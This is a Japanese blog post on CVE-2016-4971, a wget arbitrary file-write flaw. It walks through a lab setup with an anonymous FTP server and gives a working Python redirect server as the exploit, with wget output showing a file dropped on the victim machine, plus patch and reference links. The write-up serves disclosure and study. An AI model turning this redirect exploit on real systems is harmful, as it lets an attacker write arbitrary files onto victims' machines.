 ```yaml
---
layout: post
title:  "CVE-2016-4971 Wgetによる任意のファイルの書き込み"
date:   2016-07-06 10:30:00 +0900
categories: Vulnerability
toc: true
---
```


# 概要

wget 1.18未満のVersionにはHTTPリダイレクトを用いてFTPリソースから任意のファイル名でファイルを作成される脆弱性があります。

# 攻撃の詳細

攻撃者は以下のような30X系のレスポンスを返すことで任意のファイルを被害者のサーバに作成することができる。

```
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Location: ftp://attacker.test/foo.txt
```

# 検証環境の構築

 * 被害者マシンのディストロ情報

```
kosuke@scapegoat ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃者マシンのディストロ情報

```
kosuke@attacker ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃用サーバにftpサーバを構築する

```
kosuke@attacker ~ $ sudo apt-get install ftp proftpd
```

 * ftpサーバにanonymous loginの設定を行う

```
<Anonymous /tmp/ftp>
  User                          ftp
  Group                         nogroup
  # We want clients to be able to login with "anonymous" as well as "ftp"
  UserAlias                     anonymous ftp
  # Cosmetic changes, all files belongs to ftp user
  DirFakeUser   on ftp
  DirFakeGroup on ftp

  RequireValidShell             off

  # Limit the maximum number of anonymous logins
  MaxClients                    10

  # We want 'welcome.msg' displayed at login, and '.message' displayed
  # in each newly chdired directory.
  DisplayLogin                  welcome.msg
  DisplayChdir          .message

  # Limit WRITE everywhere in the anonymous chroot
  <Directory *>
    <Limit WRITE>
      DenyAll
    </Limit>
  </Directory>

</Anonymous>
```

 * anonymous loginできるかを検証する

```
kosuke@scapegoat ~ $ ftp attacker.test
Connected to attacker.test.
220 ProFTPD 1.3.5 Server (Debian) [::ffff:192.168.10.103]
Name (attacker.test:kosuke): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
```

# 実証

 * 攻撃用のスクリプトを作成

```
#!/usr/bin/python
import http.server
import socketserver

HTTP_PORT = 8000
FTP_HOST = 'attacker.test'
FTP_PORT = 21
FILENAME = 'HACKING.txt'

class wgetExploit(http.server.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(301)
        ftp_path = '%s'%('ftp://anonymous@%s:%s/%s'%(FTP_HOST, FTP_PORT, FILENAME))
        self.send_header('Location', ftp_path)
        self.end_headers()

httpd = socketserver.TCPServer(("", HTTP_PORT), wgetExploit)
httpd.serve_forever()
```

 * 攻撃用スクリプトを用いてHTTPサーバを起動する

```
kosuke@attacker ~ $ python --version
Python 3.5.1
kosuke@attacker ~ $ python exploit.py
```

 * scapegoat.testでwgetを実行しHACKING.txtが作成されることを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000
--2016-07-06 16:39:36--  http://attacker.test:8000/
attacker.test (attacker.test) をDNSに問いあわせています... 127.0.0.1
attacker.test (attacker.test)|127.0.0.1|:8000 に接続しています... 接続しました。
HTTP による接続要求を送信しました、応答を待っています... 301 Moved Permanently
場所: ftp://anonymous@attacker.test:21/HACKING.txt [続く]
--2016-07-06 16:39:36--  ftp://anonymous@attacker.test/HACKING.txt
           => `HACKING.txt'
attacker.test (attacker.test)|127.0.0.1|:21 に接続しています... 接続しました。
anonymous としてログインしています... ログインしました!
==> SYST ... 完了しました。    ==> PWD ... 完了しました。
==> TYPE I ... 完了しました。  ==> CWD は必要ありません。
==> SIZE HACKING.txt ... 8
==> PASV ... 完了しました。    ==> RETR HACKING.txt ... 完了しました。
長さ: 8 (確証はありません)

HACKING.txt             100%[=================================>]       8  --.-KB/s 時間 0s

2016-07-06 16:39:36 (53.6 KB/s) - `HACKING.txt' へ保存終了 [8]

kosuke@attacker ~ $ cat HACKING.txt
HACKING
```

 * サーバレスポンスを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000 --server-response
  HTTP/1.0 301 Moved Permanently
  Server: SimpleHTTP/0.6 Python/3.5.1
  Date: Wed, 06 Jul 2016 07:40:45 GMT
  Location: ftp://anonymous@attacker.test:21/HACKING.txt
```

# パッチ情報

 * http://git.savannah.gnu.org/cgit/wget.git/patch/?id=e996e322ffd42aaa051602da182d03178d0f13e1
 * https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-4971
 * https://security-tracker.debian.org/tracker/CVE-2016-4971

# 参考文献

 * https://blogs.securiteam.com/index.php/archives/2701
 * https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4971
 * http://docs.python.jp/3/library/http.server.html


